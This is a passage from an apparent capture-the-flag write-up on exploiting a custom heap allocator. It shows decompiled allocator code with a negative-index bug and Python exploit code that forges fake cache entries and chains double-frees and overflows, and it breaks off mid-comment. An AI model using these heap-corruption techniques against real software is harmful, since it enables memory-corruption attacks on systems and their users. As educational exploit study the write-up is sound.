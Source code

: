 The subsequent call to `mmalloc_alloc(0)` has a small safety check, as I showed earlier in the flowchart:

```c
__int64 *mcache_alloc(int user_sz) { // user_sz = 0
  mcache_struct *mcache_ = mcache;  // [rsp+30h] [rbp-10h]
  int midx = csize2midx(request2size(user_sz)) // midx = -1, [rsp+2Ch] [rbp-14h]
  mcache_entry *e = mcache->entries[midx];  // [rsp+20h] [rbp-20h]
  mcache->entries[midx] = (mcache_entry *)e->fd;
  --mcache_->counts[midx];
  if ( mcache_ != (mcache_struct *)e->mcache ) { // ! need to ensure that (void*)entries[-1][2] == mcache
    puts("Mcache: Invalid verify");
    exit(1);
  }
  e->fd = e->mcache = 0LL;
  remove_id(e->id);
  return &e->mcache;
}
```

This effectively means that `mcache->entries[-1]` needs to point to a known region of user-controlled data, like the mound. I'll use this bug to allocate a fake chunk with a valid mcache size.

```python
def fake_mcache_entry(sz: int, fd=0, rid=None, mcache=0xbeef0000010):
    if rid is None: rid = r64()
    return fit(rid, sz, mcache, fd)
add(0x20, 0, fake_mcache_entry(0x100))
add(1, 1, b'a') # chunk to be overflowed
fake_mcache_addr = 0xbeef0000100
for i,b in enumerate(pack(fake_mcache_addr)):
    chunk_sz = 0x120+i*0x10
    user_sz = chunk_sz - 0x10
    # TODO: how to get b > 0xf?
    for i in range(b): add(user_sz, 0xf-i, b'garbage')
    for i in range(b): free(0xf-i)
add(0, 2, b'') # trigger bug
free(0)
```

There's a `TODO` in there, and I'll explain. The problem with incrementing `mcache->counts[0x10:0x18]` one-by-one is that there aren't enough pointers to go around. By right, if `sizeof(arr[])` is only `0x10`, the maximum value for `mcache->counts[]` should be 0x10 as well.

I struggled with this for a while. The only way to put more pointers onto the mcache is to do a double-free, but the ID verification list got in the way of that. It was about at this point that I gained a partial understanding of the strategy outlined in [Fake IDs](#fake-ids), and I started work on an odd, roundabout method of achieving much of the same<sup>4</sup>:

 ```python
 # The substance of the exploit: getting mcache->entries[-1] to point to a fake mchunk
 for midx,b in tqdm((i+midxs.entries,b) for i,b in enumerate(pack(mound_data.fakechunk)) if b):
     def pad(s: bytes): return s.rjust(0x17, b'a')
     strdup(pad(b''), 0xf) # Remember that maximally, user_sz = 8 (mod 0x10) for a given glibc heap chunk.
     strdup(pad(b''), 0xe) # A string has a trailing nul-byte, so maximally strlen(s) = 7 (mod 0x10)
     add(midx, 2, b'hi')
     while (pred := r64bit())>>56: add(midx, 2, b'hi')
     for _ in range(b):    # continually double-free to boost ->counts[]
         free(2)
         edit(0xf, pad(pack(r64())[:7]))
         free(0xe)
         edit(0xf, pad(pack(pred)[:7]))
         add(midxs.incrementer, 5, b'a'*0x10)
 # , free it + a chunk right in front of it, overflow into the real freed chunk's metadata to
 ```